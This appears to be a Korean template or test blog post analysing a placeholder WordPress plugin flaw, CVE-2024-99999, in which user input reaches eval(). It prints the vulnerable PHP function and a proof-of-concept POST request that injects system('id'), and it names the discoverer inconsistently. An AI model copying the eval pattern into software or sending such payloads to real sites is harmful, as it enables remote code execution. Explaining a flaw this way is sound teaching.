 ```yaml
---
title: "[CVE-2024-99999] 테스트 취약점 분석 보고서"
description: "CVE-2024-99999 취약점을 분석한 내용을 정리했습니다."
author: dottak
date: 2024-10-23 13:22:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, one-태그-1, zero-태그-2]
image:
---
```


본 보고서는 최근 발견된 CVE-2024-99999 취약점에 대한 상세한 분석을 제공합니다. 이 취약점은 WordPress 플러그인에서 발견되었으며, 원격 코드 실행을 가능하게 하는 심각한 보안 위험을 초래할 수 있습니다. 아래에서는 취약점의 기술적 세부사항, 영향을 받는 시스템, 그리고 권장되는 완화 조치에 대해 설명하겠습니다.

## 개요

CVE-2024-99999는 WordPress 플러그인 'Example Plugin' 버전 2.1.0에서 발견된 심각한 보안 취약점입니다. 이 취약점은 인증되지 않은 사용자가 원격으로 임의의 PHP 코드를 실행할 수 있게 하는 문제를 야기합니다. 영향을 받는 WordPress 사이트는 데이터 유출, 서버 탈취, 또는 추가적인 악성 코드 삽입 등의 위험에 노출될 수 있습니다.

## 발견 과정

이 취약점은 WordPress 팀 Webula에 의해 2024년 9월 15일에 최초로 발견되었습니다. Doe는 'Example Plugin'의 코드를 정기적으로 검토하던 중 의심스러운 패턴을 발견하고 심층 분석을 진행했습니다. 취약점 발견 후, Doe는 즉시 플러그인 개발자와 WordPress 보안팀에 보고하여 신속한 대응이 이루어질 수 있도록 했습니다.

## 취약점 분석

### 1. 취약점 메커니즘

CVE-2024-99999 취약점은 'Example Plugin'의 입력 검증 부재로 인해 발생합니다. 플러그인은 사용자 입력을 적절히 필터링하지 않고 직접 eval() 함수에 전달하여 실행합니다. 이로 인해 공격자는 악의적인 PHP 코드를 주입하여 서버 상에서 임의의 명령을 실행할 수 있게 됩니다.

취약한 코드의 예시는 다음과 같습니다:

```php
function process_user_input($user_input) {
    // 사용자 입력을 직접 eval() 함수에 전달
    eval($user_input);
}
```

이 코드에서 $user_input 변수는 사용자로부터 받은 입력을 그대로 eval() 함수에 전달하고 있어, 심각한 보안 위험을 초래합니다.

## PoC

다음은 CVE-2024-99999 취약점을 악용하는 간단한 개념 증명(PoC) 코드입니다:

```
POST /wp-content/plugins/example-plugin/vulnerable-endpoint.php HTTP/1.1
Host: target-wordpress-site.com
Content-Type: application/x-www-form-urlencoded

user_input=system('id'); exit;
```

이 PoC는 'Example Plugin'의 취약한 엔드포인트에 POST 요청을 보내 서버에서 'id' 명령을 실행합니다. 실제 공격 시나리오에서는 이보다 더 복잡하고 악의적인 코드가 사용될 수 있습니다.